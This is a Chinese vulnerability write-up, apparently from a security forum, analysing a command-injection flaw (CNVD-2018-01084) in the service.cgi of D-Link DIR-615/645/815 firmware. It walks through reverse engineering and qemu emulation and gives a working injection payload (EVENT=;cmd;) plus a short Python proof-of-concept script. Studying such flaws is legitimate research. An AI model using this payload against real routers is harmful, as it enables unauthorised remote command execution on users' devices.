# D-Link DIR 615/645/815 service.cgi远程命令执行漏洞-先知社区

> **来源**: https://xz.aliyun.com/news/18275  
> **文章ID**: 18275

---

### D-Link DIR 615/645/815 service.cgi远程命令执行漏洞

#### 官方漏洞报告：[国家信息安全漏洞共享平台](https://www.cnvd.org.cn/flaw/show/CNVD-2018-01084)

#### 固件下载

[Index of /pub/Router/DIR-815/Firmware/RevA](https://ftp.dlink.ru/pub/Router/DIR-815/Firmware/RevA/)，下载1.03版本及以前的

#### 固件分离

binwalk 可以直接进行固件分析 binwalk -Me 分离固件

#### 固件分析

找一下官方说的漏洞文件



```
~/DIR815/_DIR815/squashfs-root/htdocs/web-> ll service.cgi 
lrwxrwxrwx 1 su su 14  1月 16 14:46 service.cgi -> /htdocs/cgibin
```

发现它链接到了htdocs目录下的cgibin文件，我们拿出来分析一下

```
    Arch:     mips-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

定位到这个函数 `servicecgi_main`，检查了传入的第一个参数`argv[0]`



随后进入函数，一上来会获取请求方式来分别处理不同的情况



到这里可以通过函数调用情况看一下，因为命令拼接基本上就是通过system来实现的



在汇编页面看看这个函数的调用情况



可以看见这个分支最后会调用`system`函数，那么这里就可能存在命令注入漏洞，具体还得分析一下这个函数

上面提到有判断请求的方式，如果是`get`方式请求的话不会进入`system`分支，因此需要`post`方式请求

随后调用了`cgibin_parse_request`函数



这个函数的返回值不能是负数

这里获取环境变量



注意这里对`URL`进行了分割，`v12`是问号之后的东西，之后调用了两次`sub_402b20`函数

这里对`v12`在此分割判断是否存在`=`以及`&`



随后对`v14`也就是环境变量`CONTENT_TYPE`进行了字符串比较，成功的话会进入下面那个箭头所指的函数



这里比较的是`v15`指向的内容，长度是`v15`偏移为`4`的地方



如图所示，比较了`v14`的前`0xc`字节和`application/`是否匹配，如果匹配成功继续调用下面那个函数`sub_403b10`因为此时`v16` 等于`1`，相当于调用偏移为`2`的位置也就是`+0x8`

这个函数继续对`v14`后面`0x15`字节进行匹配，那么可以看见类型也就是`application/x-www-form-urlencoded`



这里也对字符串进行了分割，但是由于嵌套函数层数太多，参数不好找，可以动态调试看看



包括这里调用了这个函数



它的子函数里面打开了一些文件并对其做了一系列处理，当然这个文件什么的我们模拟的时候是没有的，但是在真机上会有，所以程序走到这里会报错，可以把这段给nop掉，然后替换掉文件系统对应的文件即可



到这里可以看见当匹配到`EVENT`这个字符串时候会把v6进行拼接进`system`函数去执行，因此需要构造一下，这里具体可以动调一下



```

echo "CH13hh=BabyBot" | qemu-mipsel -g 1234 -L . \
    -0 "service.cgi" \
    -E REQUEST_METHOD="POST" \
    -E REQUEST_URI="123?EVENT=789&abc" \
    -E CONTENT_LENGTH=14 \
    -E CONTENT_TYPE="application/x-www-form-urlencoded" \
    ./htdocs/cgibin

```



这里可见对789进行了拼接，那么输入;{cmd};即可执行命令

进行测试

```
echo "CH13hh=BabyBot" | qemu-mipsel -L . \
    -0 "service.cgi" \
    -E REQUEST_METHOD="POST" \
    -E REQUEST_URI="123?EVENT=;ls;&abc" \
    -E CONTENT_LENGTH=14 \
    -E CONTENT_TYPE="application/x-www-form-urlencoded" \
    ./htdocs/cgibin
```



成功执行命令

#### exp

```
from gt import *


print("-------CNVD-2018-01084--------")


cmd = input("command-> ")
msg = "CH13hh=BabyBot"

io = process(f'''
qemu-mipsel -L . \
    -0 "service.cgi" \
    -E REQUEST_METHOD="POST" \
    -E REQUEST_URI="123?EVENT=;{cmd};&abc" \
    -E CONTENT_LENGTH=14 \
    -E CONTENT_TYPE="application/x-www-form-urlencoded" \
    ./htdocs/cgibin

''',shell=True)

io.send(msg)
io.interactive()
```


